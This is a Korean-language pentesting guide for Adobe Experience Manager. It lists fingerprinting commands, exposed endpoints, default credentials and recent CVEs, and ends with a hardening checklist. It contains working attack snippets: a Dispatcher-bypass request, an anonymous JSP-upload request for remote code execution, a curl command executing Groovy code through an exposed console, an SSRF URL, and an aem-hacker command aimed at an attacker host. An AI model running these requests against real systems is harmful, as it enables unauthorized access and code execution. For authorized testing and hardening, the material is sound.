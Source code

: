 # AEM (Adobe Experience Manager) Pentesting

{{#include ../../banners/hacktricks-training.md}}

> Adobe Experience Manager (AEM, Adobe Experience Cloud의 일부)는 Apache Sling/Felix (OSGi) 및 Java Content Repository (JCR) 위에서 실행되는 기업 CMS입니다.
> 공격자의 관점에서 AEM 인스턴스는 종종 위험한 개발 엔드포인트, 약한 Dispatcher 규칙, 기본 자격 증명 및 매 분기 패치되는 긴 CVE 목록을 노출합니다.

아래 체크리스트는 실제 참여에서 계속 나타나는 **외부에서 접근 가능한 (unauth) 공격 표면**에 중점을 둡니다 (2022-2025).

---

## 1. Fingerprinting
```
$ curl -s -I https://target | egrep -i "aem|sling|cq"
X-Content-Type-Options: nosniff
X-Dispatcher: hu1            # header added by AEM Dispatcher
X-Vary: Accept-Encoding
```
기타 빠른 지표:
* `/etc.clientlibs/` 정적 경로 존재 (JS/CSS 반환).
* `/libs/granite/core/content/login.html` “Adobe Experience Manager” 배너가 있는 로그인 페이지.
* `</script><!--/* CQ */-->` HTML 하단의 주석.

---

## 2. 높은 가치의 인증되지 않은 엔드포인트

경로 | 얻는 것 | 비고
---- | ------------- | -----
`/.json`, `/.1.json` | **DefaultGetServlet**를 통한 JCR 노드 | 종종 차단되지만, *Dispatcher 우회* (아래 참조) 작동.
`/bin/querybuilder.json?path=/` | QueryBuilder API | 페이지 트리, 내부 경로, 사용자 이름 유출.
`/system/console/status-*`, `/system/console/bundles` | OSGi/Felix 콘솔 | 기본적으로 403; 노출되고 자격 증명이 발견되면 ⇒ 번들 업로드 RCE.
`/crx/packmgr/index.jsp` | 패키지 관리자 | 인증된 콘텐츠 패키지 → JSP 페이로드 업로드 허용.
`/etc/groovyconsole/**` | AEM Groovy 콘솔 | 노출되면 → 임의의 Groovy / Java 실행.
`/libs/cq/AuditlogSearchServlet.json` | 감사 로그 | 정보 유출.
`/libs/cq/ui/content/dumplibs.html` | ClientLibs 덤프 | XSS 벡터.

### Dispatcher 우회 트릭
대부분의 프로덕션 사이트는 *Dispatcher* (리버스 프록시) 뒤에 위치합니다. 그 필터 규칙은 허용된 정적 확장을 **세미콜론 또는 인코딩된 새 줄** 뒤에 추가하여 우회할 수 있습니다:
```
GET /bin/querybuilder.json;%0aa.css?path=/home&type=rep:User HTTP/1.1
```
단일 요청은 종종 이메일 주소가 포함된 사용자 프로필 노드를 공개합니다. P-T Partners는 이 취약점에 대한 좋은 지침을 발표했습니다. 【】

---

## 3. 일반적인 잘못된 구성 (2025년에도 여전히 존재)

1. **익명 POST 서블릿** – `POST /.json`에 `:operation=import`를 사용하면 새로운 JCR 노드를 생성할 수 있습니다. Dispatcher에서 `*.json` POST를 차단하면 해결됩니다. 【】
2. **모두가 읽을 수 있는 사용자 프로필** – 기본 ACL이 `/home/users/**/profile/*`에 대해 모든 사용자에게 `jcr:read` 권한을 부여합니다.
3. **기본 자격 증명** – `admin:admin`, `author:author`, `replication:replication`.
4. **WCMDebugFilter** 활성화 ⇒ `?debug=layout`을 통한 반사형 XSS (CVE-2016-7882, 여전히 레거시 6.4 설치에서 발견됨).
5. **노출된 Groovy 콘솔** – Groovy 스크립트를 전송하여 원격 코드 실행:
```bash
curl -u admin:admin -d 'script=println "pwn".execute()' https://target/bin/groovyconsole/post.json
```

---

## 4. 최근 취약점 (서비스 팩 주기)

분기 | CVE | 영향 받는 버전 | 영향
------- | --- | -------- | ------
2024년 12월 | **CVE-2024-43711** | 6.5.21 및 이전 | 부적절한 입력 검증 → **임의 코드 실행** (저권한 인증 필요). 【】
2024년 12월 | CVE-2024-43724/26 | 6.5.21 및 이전 | Move Page Wizard에서 DOM / 저장된 XSS. 【】
2023년 12월 | CVE-2023-48452/68 | ≤ 6.5.18 | 조작된 URL을 통한 DOM 기반 XSS. 【】
2022년 12월 | CVE-2022-30683 | ≤ 6.5.13 | 암호 설계 결함 → 비밀 복호화 (저권한 자격 증명 필요). 【】

항상 고객의 서비스 팩에 맞는 *APSB* 게시판을 확인하고 최신 **6.5.22** 또는 *Cloud Service 2024.11*을 요청하세요.

---

## 5. 악용 스니펫

### 5.1 Dispatcher 우회 + JSP 업로드를 통한 RCE
익명 쓰기가 가능하다면:
```
# 1. Create a node that will become /content/evil.jsp
POST /content/evil.jsp;%0aa.css HTTP/1.1
Content-Type: application/x-www-form-urlencoded

:contentType=text/plain
jcr:data=<% out.println("pwned"); %>
:operation=import
```
이제 `/content/evil.jsp`를 요청하세요 – JSP는 AEM 프로세스 사용자로 실행됩니다.

### 5.2 SSRF에서 RCE로 (역사적 < 6.3)
`/libs/mcm/salesforce/customer.html;%0aa.css?checkType=authorize&authorization_url=http://127.0.0.1:4502/system/console`
**aem-hacker**의 `aem_ssrf2rce.py`는 전체 체인을 자동화합니다. 【】

---

## 6. 도구

* **aem-hacker** – 스위스 아미 Enumeration 스크립트, 디스패처 우회, SSRF 탐지, 기본 자격 증명 확인 등을 지원합니다.
```bash
python3 aem_hacker.py -u https://target --host attacker-ip
```【】
* **Content Brute-force** – 숨겨진 구성 요소를 발견하기 위해 `/_jcr_content.(json|html)`를 재귀적으로 요청합니다.
* **osgi-infect** – 자격 증명이 있는 경우 `/system/console/bundles`를 통해 악성 OSGi 번들을 업로드합니다.

---

## 7. 강화 체크리스트 (보고서 권장 사항용)

1. **최신 누적 서비스 팩**(2025년 7월 기준: 6.5.22)에서 인스턴스를 유지합니다.
2. 기본 계정을 제거/회전하고 SSO/SAML을 시행합니다.
3. **디스패처 필터**를 강화합니다 – 익명 사용자에 대해 `;`, 인코딩된 줄 바꿈 및 `*.json` 또는 `*.querybuilder.json`을 거부합니다.
4. IP 허용 목록으로 콘솔(`/system/console`, `/crx/*`, `/etc/groovyconsole`)을 비활성화하거나 보호합니다.
5. Adobe에서 제공하는 *익명 권한 강화* 패키지를 적용합니다.

## 참조

* Adobe 보안 게시판 APSB24-69 – “Adobe Experience Manager에 대한 보안 업데이트(2024년 12월)”.
* 0ang3el – aem-hacker 도구 (GitHub).
{{#include ../../banners/hacktricks-training.md}}
